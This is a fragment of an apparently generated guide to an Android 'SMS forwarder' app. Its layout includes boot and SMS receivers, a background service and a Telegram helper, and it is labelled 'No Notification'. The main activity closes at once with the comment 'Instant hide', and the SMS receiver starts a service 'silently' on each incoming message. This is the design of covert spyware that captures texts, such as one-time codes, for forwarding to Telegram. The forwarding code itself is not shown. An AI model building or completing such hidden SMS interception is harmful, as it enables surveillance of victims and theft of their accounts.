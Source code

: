 ```xml
```

---

## ✅ 📁 Java Code Structure (AndroidX + No Notification)

```
java/com/example/smsforwarder/
├── MainActivity.java
├── receiver/
│   ├── BootReceiver.java
│   └── SmsReceiver.java
├── service/
│   └── SmsService.java
└── TelegramUtils.java
```

---

### ✅ `MainActivity.java`

```java
package com.example.smsforwarder;

import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        finish(); // Instant hide
    }
}
```

---

### ✅ `receiver/SmsReceiver.java`

```java
package com.example.smsforwarder.receiver;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.os.Bundle;
import android.telephony.SmsMessage;

import com.example.smsforwarder.service.SmsService;

public class SmsReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        // Start background service silently
        Intent serviceIntent = new Intent(context, SmsService.class);
        serviceIntent.putExtras(intent);
        context.startService(serviceIntent);
    }
}
```

---